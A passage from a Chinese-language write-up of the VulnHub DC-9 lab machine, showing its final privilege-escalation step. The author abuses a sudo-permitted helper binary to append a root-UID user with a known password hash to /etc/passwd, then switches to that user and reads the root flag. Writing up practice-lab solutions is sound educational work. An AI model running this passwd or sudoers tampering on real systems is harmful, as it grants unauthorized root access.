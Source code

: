 2个 test.py,不过我估计 `/opt/devstuff/test.py` 才是我们需要的
```bash
cat /opt/devstuff/test.py
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC9/21.png)

看起来是 test 的源码,功能是添加输入到目标的最后

那么接下来就简单了,直接向 passwd 文件中写用户,或直接向 sudo 配置文件写 ALL 都是可以提权的
```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC9/22.png)

提权成功,感谢作者 @DCUA7 制作的 DC 系列靶机
